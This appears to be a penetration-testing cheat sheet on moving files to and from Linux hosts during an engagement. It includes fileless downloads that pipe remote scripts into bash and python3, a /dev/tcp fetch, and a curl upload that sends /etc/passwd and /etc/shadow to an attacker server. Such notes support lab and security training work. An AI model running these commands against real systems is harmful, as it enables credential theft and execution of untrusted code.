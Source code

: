 ```bash
wget <URL> -O /path/to/file.ext
```

```bash
curl -o /path/to/file.ext <URL>
```

<code class="invert">Fileless downloads</code>

```bash
curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```

```bash
wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
```

<code class="invert">Download with Bash (/dev/tcp)</code>
There may also be situations where none of the well-known file transfer tools are available. As long as Bash version 2.04 or greater is installed (compiled with --enable-net-redirections), the built-in /dev/TCP device file can be used for simple file downloads.

```bash
exec 3<>/dev/tcp/10.10.10.32/80
echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
cat <&3
```

<code class="invert">SSH Downloads</code>
```bash
sudo systemctl enable ssh
sudo systemctl start ssh
netstat -lnpt
scp plaintext@192.168.49.128:/root/myroot.txt . 
```

#### <span class="red-command">Uploading files from remote host to Linux</span>
<code class="invert">Web Upload</code>  
Setting up a python upload server with SSL/TLS enabled.

```bash
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
mkdir https && cd https
python3 -m uploadserver 443 --server-certificate ~/server.pem
```

<code class="invert">Linux - Upload Multiple Files</code>

```bash
curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```

<code class="invert">Linux - Creating a Web Server with Python3</code>

```bash
python3 -m http.server 9001
```
